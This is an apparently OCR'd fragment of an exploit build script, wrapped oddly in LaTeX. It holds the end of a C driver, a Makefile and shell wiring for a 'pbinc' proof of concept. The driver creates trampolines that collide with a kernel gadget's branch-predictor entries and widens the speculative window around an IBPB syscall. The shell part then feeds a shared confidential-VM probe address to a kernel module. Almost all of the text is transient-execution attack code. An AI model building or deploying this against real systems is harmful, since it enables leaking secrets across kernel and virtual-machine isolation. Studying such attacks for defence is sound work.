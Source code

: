 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
    // Parse GVA of shared probe from command-line
    __pbinc_probe_shared = strtoull(argv[1], NULL, 16);

    ////////////////////////////////////////////
    // 3. Build CALLSITE trampolines that alias the kernel gadget
    ////////////////////////////////////////////
    // This fills __alias_tbl[] with entry points to hand-crafted callsite stubs (trampoline calls)
    // Each one has a return address that collides with the kernel gadget's class
    (void)pbinc_create_trampolines(__pbinc_kernel_gadget_addr);

    ////////////////////////////////////////////
    // 4. Allocate lab-only memory to act as a cold read for delayed branch resolution
    ////////////////////////////////////////////
    // The address will be read from inside the ".do_branch" block in pbinc.asm
    // It must be slow (ideally cold L3 or fault-suppressed) to prolong speculative window
    void *slow = aligned_alloc(4096, 4096); // Aligned for page granularity
    if (!slow) { perror("alloc slow"); exit(1); }
    __slow_predicate_ptr = (uint64_t)slow; // Patch the ASM-visible symbol

    ////////////////////////////////////////////
    // 5. Jump into ASM:
    // [1] Transiently train -> [2] Syscall (IBPB) -> [3] Spin loop
    ////////////////////////////////////////////
    pbinc_entry(); // This does not return
    return 0;
}
EOF

info "Writing Makefile (user)"
cat > "${USER_DIR}/Makefile" <<'EOF'
CC=gcc
NASM=nasm
CFLAGS=-O2 -fno-pie -no-pie
LDFLAGS=-no-pie

all: pbinc_poc

pbinc_poc: pbinc.o trampoline.o driver.o
	$(CC) $(LDFLAGS) -o $@ $^

pbinc.o: pbinc.asm
	$(NASM) -f elf64 -o $@ $<

trampoline.o: trampoline.c
	$(CC) $(CFLAGS) -c -o $@ $<

driver.o: driver.c
	$(CC) $(CFLAGS) -c -o $@ $<

clean:
	rm -f *.o pbinc_poc
EOF

info "Building user binary"
( cd "${USER_DIR}" && $MAKE -j )

################################# runtime wiring

echo
ok "Runtime wiring (guest side)"
echo "  1) Provide SHARED (C-bit=0) 1 MiB probe's guest-physical base to the module."
read -rp "Enter SHARED probe GPA (hex, e.g. 0x12345000): " SHARED_GPA
sudo_or bash -c "echo ${SHARED_GPA} > /sys/kernel/pbinc/probe"


\end{lstlisting}
\end{document}
